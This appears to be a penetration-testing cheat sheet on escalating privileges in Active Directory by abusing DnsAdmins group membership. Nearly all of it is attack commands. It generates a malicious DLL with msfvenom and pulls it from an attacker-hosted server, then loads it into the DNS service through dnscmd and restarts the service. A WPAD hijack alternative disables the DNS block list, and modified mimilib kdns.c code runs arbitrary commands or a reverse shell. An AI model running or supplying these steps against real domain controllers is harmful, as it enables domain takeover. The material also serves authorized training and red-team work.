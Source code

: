 ## **Approach to Exploiting DnsAdmins**

### **1. Generate a Malicious DLL**

```bash
msfvenom -p windows/x64/exec cmd='<command>' -f dll -o <dll_name>.dll
```

### **2. Host DLL on an HTTP Server**

```bash
python3 -m http.server <port>
```

### **3. Transfer DLL to Target Machine**

```powershell
wget "http://<attacker_ip>:<port>/<dll_name>.dll" -outfile "<dll_name>.dll"
```

### **4. Verify Membership in DnsAdmins Group**

```powershell
Get-ADGroupMember -Identity DnsAdmins
```

### **5. Load Custom DLL into DNS Server Configuration**

```cmd
dnscmd.exe /config /serverlevelplugindll <dll_path>
```

### **6. Check Permissions on DNS Service**

Retrieve the **Security Identifier (SID)** of the user:

```cmd
wmic useraccount where name="<user>" get sid
```

Check DNS service permissions:

```cmd
sc.exe sdshow DNS
```

### **7. Restart DNS Service to Trigger Payload Execution**

```cmd
sc stop dns
sc start dns
```

### **8. Verify Exploitation**

Check if the user was added to the Domain Admins group (if applicable):

```cmd
net group "Domain Admins" /dom
```

### **9. Cleanup (if needed)**

Check for the malicious DLL entry:

```cmd
reg query \\<target_ip>\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
```

Remove the DLL entry from the registry:

```cmd
reg delete \\<target_ip>\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll
```

Restart DNS service after cleanup:

```cmd
sc.exe start dns
sc query dns
```

### **10. Alternative Exploit - WPAD Attack**

Disable WPAD blocking:

```powershell
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName <dc_hostname>
```

Create a WPAD DNS record pointing to the attacker's IP:

```powershell
Add-DnsServerResourceRecordA -Name wpad -ZoneName <domain_name> -ComputerName <dc_hostname> -IPv4Address <attacker_ip>
```

## **Commands Used:**

- `msfvenom`
- `python3 -m http.server`
- `wget`
- `dnscmd.exe`
- `wmic`
- `sc.exe`
- `net`
- `reg`
- `Set-DnsServerGlobalQueryBlockList`
- `Add-DnsServerResourceRecordA`

## **PowerShell Cmdlets:**

- `Get-ADGroupMember`

## Using Mimilib.dll

As detailed in this [post](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html), we could also utilize [mimilib.dll](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib) from the creator of the `Mimikatz` tool to gain command execution by modifying the [kdns.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c) file to execute a reverse shell one-liner or another command of our choosing.

Code: c

```c
/*	Benjamin DELPY `gentilkiwi`
	https://blog.gentilkiwi.com
	benjamin@gentilkiwi.com
	Licence : https://creativecommons.org/licenses/by/4.0/
*/
#include "kdns.h"

DWORD WINAPI kdns_DnsPluginInitialize(PLUGIN_ALLOCATOR_FUNCTION pDnsAllocateFunction, PLUGIN_FREE_FUNCTION pDnsFreeFunction)
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginCleanup()
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginQuery(PSTR pszQueryName, WORD wQueryType, PSTR pszRecordOwnerName, PDB_RECORD *ppDnsRecordListHead)
{
	FILE * kdns_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
#pragma warning(pop)
	{
		klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
		fclose(kdns_logfile);
	    system("ENTER COMMAND HERE");
	}
	return ERROR_SUCCESS;
}
```

